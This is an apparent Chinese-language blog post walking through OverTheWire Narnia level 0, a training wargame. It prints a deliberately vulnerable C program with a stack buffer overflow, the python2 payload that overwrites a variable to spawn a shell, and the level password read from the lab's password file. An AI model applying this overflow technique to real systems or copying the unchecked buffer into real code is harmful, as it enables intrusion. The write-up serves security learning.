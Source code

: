 ```yaml
---
layout: post
title:  "Narnia"
date:   2019-10-02 00:00:00 +0800
categories: 安全
tags: game
series: OverTheWire
series_index: 3
comments: true
mathjax: true
copyrights: 原创
archived: true
---
```


[https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)

每关使用 ssh 连接

```shell
ssh -p 2226 narnia0@narnia.labs.overthewire.org
```

## Level 0–>Level 1

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

可以看到，有一个大小为 20 的 buf，我们需要通过输入溢出 buf 来覆盖 val 的值。

我们首先做一个简单的尝试：

```shell
$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABCDE
buf: AAAAAAAAAAAAAAAAAAAABCDE
val: 0x45444342
WAY OFF!!!!
```

值得注意的是，val 的值为 `0x45444342`，即 EDCB。

```shell
/narnia$ python2 -c 'print "A"*20 + "\xef\xbe\xad\xde\x80"'
AAAAAAAAAAAAAAAAAAAAﾭހ
/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭހ
buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
$ cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```
